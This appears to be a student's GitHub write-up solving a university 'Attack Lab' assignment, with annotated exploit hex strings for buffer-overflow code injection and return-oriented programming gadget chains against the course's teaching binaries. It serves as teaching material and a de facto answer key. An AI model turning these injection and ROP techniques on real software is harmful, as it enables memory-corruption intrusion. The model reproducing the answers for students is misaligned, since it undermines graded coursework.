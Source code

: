 #Things to know:
*“Overrunning the buffer typically causes the program state to be corrupted, leading to a memory access error. Your task is to be more clever with the strings you feed CTARGET and RTARGET so that they do more interesting things. These are called exploit strings.”

*if you want to create a byte with a hex value of 0, you need to write it as 00
*Put your answer backward so like 401020  -> 20 10 40
*Pre allocating memory, subtract rsp
*Assigning value to rsp, adds to rsp
*Code Injection vs Return oriented programming

#Phase 1:
*Figuring out How big the buffer by looking at
*get buff
*sub    $0x38,%rsp , 0x38 = 56
*Overflow the buffer and rewrite the return address by redirecting it to the address of touch1

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00  //56  zero/padding
9c 12 40 00 00 00 00 00 //address of touch1
```

#Phase 2:
*Look at the stack(it’ll help you understand)
*(Look at hints in the handout) store your cookie into rdi so you can pass it as an argument
mov    $0x14f987af,%rdi
*Than you are going to want to push the address of touch2 and have a return(in a .d file)
pushq  $0x4012c8
retq
You’ll get the byte representation of the assembly code and that’s what you’ll use in your answer.
*If you run getbuff(hence set a breakpoint at getbuf to see what’s happening) and run it with your answer and check what’s in your stack (do x/20x $rsp ) you’ll see that your cookie and push touch2 at first are just passed in as a string so at first it doesn’t matter that much. But then when you get to rsp
*The rsp address is at the top of the stack where your instructions are hence they’ll start being implemented, where you pass the cookie as an argument to touch2.


```
48 c7 c7 af 87 f9 14 68 //cookie
c8 12 40 00 c3 00 00 00 //push touch2
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 0//0 00
78 9c 63 55 00 00 00 00 //rsp hex after callq //address of first machine instruction
//overwrite with our first injected code
```

#Phase 3:
*Convert cookie into a string
*If it is stored in buf, then the next hexmatch may overwrite its stack, but the parent stack of buf is safe. We put the address of touch3 on the top of the parent stack.
*Your injected code should set register %rdi to the address of this string.
*“When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.”
*Rsp from phase 2 is the first thing we read which sends us to our instruction and there it grabs the cookie.

```
48 c7 c7 b8 9c 63 55 68  //  the return address should be rsp from phase 2 +0x40(64 decimal) into rdi is where the address of the string (the location where the code execution address is saved) //moving the cookie to rdi(this is where the cookie was stored previously, past the overflow point at the end of the buffer) plus buffer size+0x8 for the return address and another 0x8 for touch 3
d9 13 40 00 c3 00 00 00 //address of touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 9c 63 55 00 00 00 00 //rsp from phase 2//points back to the beginning where your instructions are
31 34 66 39 38 37 61 66 // cookie turn into a string
```


#Phase 4:
*the strategy is to find several instructions/byte sequence in the existing code, these instructions are followed by instructions ret(gadgets)
*Each return is equivalent to jumping from one gadget to another, and then doing so through the constant jump to complete the operation we want.
*Similar logic as phase 2 but we are using return-oriented programming
*Your first gadget will be a popq rax(58),it will pop data from the stack
*Then put your cookie address and store it in rax thanks to gadget 1, then put the cookie into edi (hence mov rax,edi is your second gadget(48 89 c7 c3))
*And then just past the address of touch2
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00
7e 14 40 00 00 00 00 00 //gadget 1 popq rax  whatever was put at the top of the stack put into rax,//overwriting the return address with a gadget(that’s how it jumps into the stack)
When it gets a return command it looks at the return address and then it moves the stack pointer down .A return address is like popping. The gadget includes a return and then goes down to the cookie(rsp goes down to the cookie)
af 87 f9 14 00 00 00 00 //cookie Address , put cookie where rax is (stored in rax)
a6 14 40 00 00 00 00 00 //gadget 2 mov rax,edi // there is a c3 at that address
c8 12 40 00 00 00 00 00 //touch2
```


#Phase 5:
*From the moment we move the address of rsp to rax till the address of cookie, there are 9 addresses which are 8 gadgets and the address of touch3, exclude the value read in to rax and each address has 8 bytes.The gap must be 72 bytes, which is equal to the address of 0x48.
*The solution for this is to use ROP (Return Oriented Programming), what ROP does is that since we can't execute our own code, we will look for instructions in the code that do the same thing as what we want. These are called gadgets and by combining these gadgets, we will be able to perform our exploit.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
da 14 40 00 00 00 00 00 //Mov %rsp, %rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
99 14 40 00 00 00 00 00 //pop rax //pop data from the stack
48 00 00 00 00 00 00 00  // 9*8 = 72 =0x48 //6*8  to set up eax into esi
02 15 40 00 00 00 00 00//Movl %eax, %ecx   //89 c1
4b 15 40 00 00 00 00 00//Movl %ecx, %edx //89 ca
1d 15 40 00 00 00 00 00 //Movl %edx, %esi  //89 d6
b1 14 40 00 00 00 00 00//Lea (%rdi, %rsi, 1), %rax putting cookie into rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
d9 13 40 00 00 00 00 00//Touch3's address
31 34 66 39 38 37 61 66//Cookie string
```
The first thing to do is to get the current %rspaddress and use it to find the string.
Add this address to the offset, here is the function 0x48 just usedadd_xy
Find a way to put the above value into the %rdimiddle
Follow the previous ret instruction, return touch3 the address
Store the string, for the sake of convenience, we put it to the end


Return Oriented programming:

Performing code-injection attacks on program RTARGET is much more difficult than it is for CTARGET, because it uses two techniques to thwart such attacks:
It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.
It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.
Fortunately, clever people have devised strategies for getting useful things done in a program by executing existing code, rather than injecting new code. The most general form of this is referred to as return-oriented programming (ROP) [1, 2].
The strategy with ROP is to identify byte sequences within an existing program that consist of one or more instructions followed by the instruction ret. Such a segment is referred to as a gadget. Figure 2 illustrates how the stack can be set up to execute a sequence of n gadgets. In this figure, the stack contains a sequence of gadget addresses. Each gadget consists of a series of instruction bytes, with the final one being 0xc3, encoding the ret instruction. When the program executes a ret instruction starting with this configuration, it will initiate a chain of gadget executions, with the ret instruction at the end of each gadget causing the program to jump to the beginning of the next.
A gadget can make use of code corresponding to assembly-language statements generated by the compiler, especially ones at the ends of functions. In practice, there may be some useful gadgets of this form, but not enough to implement many important operations. For example, it is highly unlikely that a compiled function would have popq %rdi as its last instruction before ret. Fortunately, with a byte-oriented instruction set, such as x86-64, a gadget can often be found by extracting patterns from other parts of the instruction byte sequence.
